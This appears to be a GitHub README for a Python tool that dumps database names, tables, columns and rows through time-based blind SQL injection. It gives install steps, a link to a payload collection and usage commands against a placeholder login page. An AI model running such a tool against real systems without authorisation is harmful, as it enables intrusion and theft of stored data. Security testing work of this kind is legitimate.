 # Time-Based Blind SQLi data extractor
## Features
### Dump data
- Database name
- Table name
- Column names
- Rows / Data
### Customizable
- The default payloads have been tested on MariaDB and MySQL
- You can find more payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- Add or change payloads in payloads.json
- Customizable for various use cases beyond time-based attacks
## Installation
### Clone the repo
``` bash
git clone https://github.com/aetuul/blind-dumper
cd blind-dumper
```
### Install requirements
``` bash
pip install -r requirements.txt
```
## Usage
### Find Database name
``` bash
python blind-dumper.py http://example.com/login -D
```
### Find table name
``` bash
python blind-dumper.py http://example.com/login --db <DB Name> -T
```
### Find a column name
``` bash
python blind-dumper.py http://example.com/login --db <DB Name> --table <Table Name> -C
```
### Extract data from given table and column
``` bash
python blind-dumper.py http://example.com/login --table <Table Name> --column <Column Name> -R
```